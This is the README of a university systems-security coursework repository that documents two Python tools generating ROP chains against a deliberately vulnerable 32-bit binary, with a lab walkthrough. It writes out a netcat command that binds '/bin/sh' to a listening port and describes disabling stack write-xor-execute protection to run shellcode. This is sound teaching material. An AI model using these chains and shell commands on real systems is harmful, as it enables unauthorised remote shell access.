 # COMSM0051 Systems and Software Security Coursework
## Project 4
### Group Members

This repository contains the source code created for the COMSM0051 Systems and Software Security unit at the University of Bristol.

The members of the group are:

* Ruairi Fox (rf17160)
* Bogdan Stelea (bs17580)
* Emil Centiu (zl18810)

## Instructions

### Prerequisites

The project has been developed and tested on a Ubuntu 18.04 Bionic Beaver Virtual Machine. Please run the following commands to install all the packages needed to execute the project:

* `sudo apt-get update`
* `sudo apt-get install -y python3-pip gcc-multilib gdb`
* `pip3 install pygdbmi`
* `pip3 install ropgadget`

A Vagrantfile is also provided in the repository which will install automatically all the required packages on provision when initialising the VagrantBox `vagrant up`.
In order to use the Vagrantfile, the Vagrant and Oracle VirtualBox utilities need to be installed. 

In order to install VirtualBox please follow the instructions for specific Operating Systems [here](https://www.virtualbox.org/wiki/Downloads).
In order to install Vagrant please follow the instructions for specific Operating Systems [here](https://www.vagrantup.com/).

### Running `ropoverflow_execve.py`

The tool `ropoverflow_execve.py` is a Python3 program that given arbitrary command line arguments to be passed to the `execve()` system call automatically generates the corresponding ROP chain.

The program can be used as follows: `python3 ropoverflow_execve.py <binary name> <payload name>`, where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The program will also prompt the user to type the command line arguments to be passed to the `execve()` system call separated by whitespace (i.e. `" "`). The program will automatically detect if further `/` characters need to be inserted. 

Here are some example command line parameters that can be given as input when prompted:

* `/bin/sh`
* `/bin//sh`
* `/tmp/nc -lnp 5678 -tte /bin/sh`
* `/tmp//nc -lnp 5678 -tte /bin//sh`

The program will generate a file having the same name as written by the user when executed corresponding to the `<payload name>` entry. This can be passed in as input to the vulnerable binary in order to inject the payload, for example `./vuln3-32-test exploit.bin`.

### Lab4 Reverse Shell Exploit Task Using `ropoverflow_execve.py`
#### Aim
Open a port on the victim machine using netcat tool that returns a shell (reverse shell exploit).
#### Steps
1. Change current directory to `s3` : `cd s3`
1. Copy netcat to temporary folder using `cp ~/netcat-0.7.1/src/netcat /tmp/nc` (check using `/tmp/nc --help`)
1. Compile vuln3.c using `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32-test` (the example binary is already compiled and present under the same name, `vuln3-32-test`, in the current directory)
1. Build the exploit input string using `python3 ropoverflow_execve.py vuln3-32-test exploit.bin`. When prompted with the message `"Enter exploit parameters:"` enter: `/tmp/nc -lnp 5678 -tte /bin/sh`
1. Run the compiled vulnerable binary passing the exploit file as input (e.g. `./vuln3-32 exploit.bin`)
1. In a separate terminal run `/tmp/nc 127.0.0.1 5678` and check if the reverse shell exploit is working

### Running `ropoverflow.py`

The tool `ropoverflow.py` is a Python3 program that given an arbitrary shellcode file will generate a ROP chain that will call the `mprotect` system call which will disable the `write-xor-execute` protection from the stack, and then will call the `read` system call to read the shellcode from the standard input, which will place the shellcode on the program stack, and then execute the payload.

The program is run with the command: `python3 ropoverflow.py <binary name> <payload name>`, , where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The shellcode needs to be saved in a binary file, for example `badfile`. Then the user can run the exploit by using the `cat` Linux utility to paste the content of the shellcode file to the terminal and append `-` to allow the program to process entries from standard input, and use the pipe (`|`) operator to pass the content of the file to the vulnerable binary that is being passed the payload file containing the ROP chain generated by the `ropoverflow.py` program. An example command looks like following: `cat badfile -| ./vuln3-32-test exploit.bin`. 

